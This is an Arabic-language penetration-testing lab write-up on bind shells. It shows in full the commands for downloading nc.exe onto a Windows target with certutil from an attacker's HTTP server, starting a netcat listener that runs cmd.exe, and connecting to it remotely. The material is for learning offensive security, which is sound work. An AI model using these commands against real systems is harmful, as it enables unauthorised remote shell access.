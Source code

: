 وهذا يطلق عليه bind Shell  

وفيه اكثر من هذي الخصائص او الفوائد الي ممكن تحصلها من الاداة لكن حنا هنا وضحنا ابرزها او اهمها ان صح التعبير  

الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب الثاني في هذا القسم هو  

Bind Shells
------------|  

طبعا هذا اللاب مقارب لسابق لكن بطريقة اخرى وهي انه بنفذ اوامر عن طريقها بالـ cmd  

اول شي راح نسوي نفس كلشي سابق نفتح بايثون سيرفر وننقل باينري nc.exe الى التارقت مشين  

خلونا اول شي نروح لماسار الباينري ونفتح السيرفر هناك  
```bash
cd /usr/share/windows-binaries  
```  

عشان نفتح بايثون سيرفر  
```bash
python -m SimpleHTTPServer 80  
```  

والان نتوجه لمشين التارقت عشان نحمل الباينري او حقنا من جهاز الاتاكر طبعا فيه اداة خاصة بالويندوز نفسل اداة wget في لينكس  
```bash
certutil -urlcache -f http://10.10.3.2/nc.exe nc.exe  
```  


خلونا اول شي ننتقل الى مسار الي فيه الـ cmd.exe وننقل البانري الي نفس المسار  
```bash
cd C:\Users\Administrator\Downloads  
```  

طيب الان نفتح بورت من التارقت مشين ونقوله اذا صار الاتصال شغلي الـ cmd.exe  

خلونا نشوف كيف بيكون الامر  
```bash
./nc.exe -nvlp 1234 -e cmd.exe  
```  

-e فقط عشان يشغل لنا الملف الي بنحطه مثل الامر الي فوق قلنا له شغلنا cmd.exe اذا صار فيه الاتصال  


الان نحاول نتصل من جهاز الاتاكر على جهاز التارقت  
```bash
nc -nv 10.4.21.221 1234  
```  

ونشوف انه فعلا جا الاتصال لنا وهذا هو يسمى الـ bind shell  

في حال انفتح البورت على التارقت وحنا اتصلنا يعتبر bind shell  
في حال انفتح البورت على جهاز الاتاكر والاتصال كان من التارقت يعتبر reverse shell  

الى هنا انتهى اللاب نشوف الي بعده  

---
